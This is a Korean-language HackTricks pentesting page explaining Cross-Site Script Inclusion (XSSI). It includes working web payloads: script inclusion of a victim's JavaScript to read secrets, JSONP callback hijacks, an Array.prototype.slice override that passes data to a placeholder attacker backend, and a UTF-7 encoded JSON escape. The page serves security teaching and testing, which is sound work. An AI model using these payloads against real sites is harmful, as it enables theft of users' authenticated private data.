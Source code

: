 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)**는 HTML의 `script` 태그의 특성에서 발생하는 취약점입니다. 대부분의 리소스가 **Same-Origin Policy (SOP)**의 적용을 받는 것과 달리, 스크립트는 다른 도메인에서 포함될 수 있습니다. 이 동작은 다른 서버에 호스팅된 라이브러리 및 기타 리소스의 사용을 용이하게 하기 위한 것이지만, 잠재적인 보안 위험도 초래합니다.

### **XSSI**의 주요 특징:
- **SOP 우회**: 스크립트는 **Same-Origin Policy**의 적용을 받지 않아 도메인 간에 포함될 수 있습니다.
- **데이터 노출**: 공격자는 이 동작을 이용해 `script` 태그를 통해 로드된 데이터를 읽을 수 있습니다.
- **동적 JavaScript/JSONP에 미치는 영향**: **XSSI**는 동적 JavaScript 또는 **JSON with Padding (JSONP)**와 특히 관련이 있습니다. 이러한 기술은 종종 인증을 위해 "ambient-authority" 정보(예: 쿠키)를 사용합니다. 다른 호스트에 스크립트 요청이 이루어질 때, 이러한 자격 증명(예: 쿠키)이 요청에 자동으로 포함됩니다.
- **인증 토큰 유출**: 공격자가 사용자의 브라우저를 속여 자신이 제어하는 서버에서 스크립트를 요청하게 만들 수 있다면, 이러한 요청에 포함된 민감한 정보에 접근할 수 있습니다.

### Types

1. **정적 JavaScript** - 이는 XSSI의 전통적인 형태를 나타냅니다.
2. **인증이 있는 정적 JavaScript** - 이 유형은 접근을 위해 인증이 필요하다는 점에서 다릅니다.
3. **동적 JavaScript** - 동적으로 콘텐츠를 생성하는 JavaScript를 포함합니다.
4. **비 JavaScript** - JavaScript와 직접적으로 관련되지 않은 취약점을 나타냅니다.

**다음 정보는 [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)의 요약입니다. 추가 세부정보는 해당 링크를 확인하세요.**


### Regular XSSI
이 접근 방식에서는 개인 정보가 전 세계에서 접근 가능한 JavaScript 파일에 포함됩니다. 공격자는 파일 읽기, 키워드 검색 또는 정규 표현식과 같은 방법을 사용하여 이러한 파일을 식별할 수 있습니다. 위치를 찾은 후, 개인 정보가 포함된 스크립트는 악의적인 콘텐츠에 포함되어 민감한 데이터에 대한 무단 접근을 허용할 수 있습니다. 아래에 예시적인 공격 기법이 나와 있습니다:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
이러한 유형의 XSSI 공격은 사용자의 요청에 따라 기밀 정보가 동적으로 스크립트에 추가되는 것을 포함합니다. 쿠키가 있는 요청과 없는 요청을 보내고 응답을 비교하여 탐지가 가능합니다. 정보가 다르면 기밀 정보가 존재할 수 있음을 나타낼 수 있습니다. 이 프로세스는 [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp 확장과 같은 도구를 사용하여 자동화할 수 있습니다.

기밀 데이터가 전역 변수에 저장되어 있는 경우, Regular XSSI에서 사용되는 유사한 방법을 사용하여 악용할 수 있습니다. 그러나 기밀 데이터가 JSONP 응답에 포함된 경우, 공격자는 콜백 함수를 탈취하여 정보를 검색할 수 있습니다. 이는 전역 객체를 조작하거나 JSONP 응답에 의해 실행될 함수를 설정하여 수행할 수 있습니다.
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
전역 네임스페이스에 존재하지 않는 변수의 경우, *프로토타입 변조*가 때때로 악용될 수 있습니다. 이 기술은 코드 해석이 호출된 속성을 찾기 위해 프로토타입 체인을 탐색하는 JavaScript의 설계를 활용합니다. `Array`의 `slice`와 같은 특정 함수를 재정의함으로써, 공격자는 비전역 변수를 접근하고 누출할 수 있습니다:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
추가적인 공격 벡터에 대한 자세한 내용은 보안 연구원 [Sebastian Lekies](https://twitter.com/slekies)의 작업에서 확인할 수 있으며, 그는 [벡터](http://sebastian-lekies.de/leak/) 목록을 유지하고 있습니다.

### Non-Script-XSSI
Takeshi Terada의 연구는 Non-Script 파일, 예를 들어 CSV가 `script` 태그의 소스로 포함되어 교차 출처로 유출되는 또 다른 형태의 XSSI를 소개합니다. Jeremiah Grossman의 2006년 공격으로 전체 Google 주소록을 읽고 Joe Walker의 2007년 JSON 데이터 유출과 같은 XSSI의 역사적 사례는 이러한 위협의 심각성을 강조합니다. 또한, Gareth Heyes는 특정 브라우저에서 효과적인 JSON 형식을 탈출하고 스크립트를 실행하기 위해 UTF-7로 인코딩된 JSON을 포함하는 공격 변형을 설명합니다.
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
